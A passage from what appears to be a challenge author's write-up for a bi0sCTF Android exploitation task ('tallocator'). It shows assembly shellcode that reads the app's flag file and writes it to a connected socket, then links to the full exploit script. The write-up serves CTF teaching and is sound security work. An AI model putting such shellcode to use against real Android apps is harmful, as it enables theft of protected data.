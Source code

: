 ```asm
	mov rsi, 0
	mov rdx, 0
	syscall

read:
	mov rdi, rax
	mov rax, 0
	mov rsi, rsp
	mov rdx, 0x50
	syscall

write:
    mov rax, 0x1
    mov rdi, r9
    mov rsi, rsp
    mov rdx, 0x50
    syscall

finish:
	push 0x3c
	pop rax
	syscall

path: db "/data/data/bi0sctf.android.challenge/flag", 0
```

## Exploit Script with comments:

> Receiveing the Flag on the listening port:

![alt text](/images/tallocator/image-3.png)
> Quick Mind Map:

![bob](/images/tallocator/image.png)
- The Final exploit to exploit can be found [here](https://gist.github.com/tourpran/e18490a2d4790befcb2d18e3c18b16ae)

## Closing Note:

Congrats to ``The Flat Network Society`` for first blooding the challenge. Hope you guys had fun solving the challenge!
